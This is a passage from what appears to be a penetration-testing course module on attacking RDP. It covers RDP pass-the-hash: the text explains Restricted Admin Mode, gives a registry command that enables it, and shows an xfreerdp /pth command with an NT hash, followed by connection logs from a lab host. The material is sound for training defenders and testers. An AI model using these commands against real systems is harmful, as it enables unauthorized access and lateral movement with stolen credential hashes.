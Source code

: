 Once the service is started, a new terminal with the `lewen` user session will appear. With this new account, we can attempt to discover what kind of privileges it has on the network, and maybe we'll get lucky, and the user is a member of the Help Desk group with admin rights to many hosts or even a Domain Admin.

*Note: This no longer works on Server 2019*

## RDP Pass-the-Hash (PtH)

We may want to access applications or software installed on a user's Windows system that is only available with GUI access during a penetration test. If we have plaintext credentials for the target user, it will be no problem to RDP into the system. However, what if we only have the NT hash of the user obtained from a credential dumping attack such as [SAM](https://en.wikipedia.org/wiki/Security_Account_Manager) database, and we could not crack the hash to reveal the plaintext password? In some instances, we can perform an RDP PtH attack to gain GUI access to the target system using tools like `xfreerdp`.


There are a few caveats to this attack:

- `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, we will be prompted with the following error:

![](https://academy.hackthebox.com/storage/modules/116/rdp_session-4.png)

This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`. It can be done using the following command:

#### Adding the DisableRestrictedAdmin Registry Key

Attacking RDP

```cmd-session
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

![](https://academy.hackthebox.com/storage/modules/116/rdp_session-5.png)

Once the registry key is added, we can use `xfreerdp` with the option `/pth` to gain RDP access:

```shell
gdxqpardo@htb[/htb]# xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9

[09:24:10:115] [1668:1669] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state            
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr                                   
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd                                  
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr                                 
[09:24:11:427] [1668:1669] [INFO][com.freerdp.primitives] - primitives autodetect, using optimized                               
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] - freerdp_tcp_is_hostname_resolvable:freerdp_set_last_error_ex resetting error state
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] - freerdp_tcp_connect:freerdp_set_last_error_ex resetting error state        
[09:24:11:464] [1668:1669] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 0
[09:24:11:464] [1668:1669] [WARN][com.freerdp.crypto] - CN = dc-01.superstore.xyz                                                     
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] - VERSION ={                                                              
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductMajorVersion: 6                                           
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductMinorVersion: 1                                           
```